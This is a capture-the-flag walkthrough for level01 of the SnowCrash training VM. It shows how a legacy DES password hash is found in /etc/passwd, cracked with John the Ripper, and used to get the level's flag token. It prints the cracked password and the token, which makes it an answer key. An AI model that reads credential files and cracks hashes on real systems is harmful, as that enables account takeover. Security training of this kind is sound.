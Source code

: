 ## level01
```
flag00@SnowCrash:~$ su level01
Password: x24ti5gi3x0ol2eh4esiuxias
level01@SnowCrash:~$
```
you need install [Kali Linux](https://www.kali.org/) image for [VB](https://www.kali.org/get-kali/#kali-virtual-machines)  
research /etc/passwd /etc/shadow
```
find / -type f -exec grep -H "flag01" {} \; 2>/dev/null
```
```
level01@SnowCrash:~$ cat /etc/passwd
[...]
level14:x:2014:2014::/home/user/level14:/bin/bash
flag00:x:3000:3000::/home/flag/flag00:/bin/bash
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
flag02:x:3002:3002::/home/flag/flag02:/bin/bash
[...]
```
`42hDRfypTqqnw` use `john` in Kali Linux on your PC
```
┌──(kali㉿kali)-[~/snowcrash]
└─$ echo 42hDRfypTqqnw > passwd
```
```
┌──(kali㉿kali)-[~/snowcrash]
└─$ john passwd 
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
abcdefg          (?)     
1g 0:00:00:00 DONE 2/3 (2023-05-01 08:49) 33.33g/s 409600p/s 409600c/s 409600C/s 123456..Herman1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
```
level01@SnowCrash:~$ su flag01 
Password: abcdefg
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag 
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```
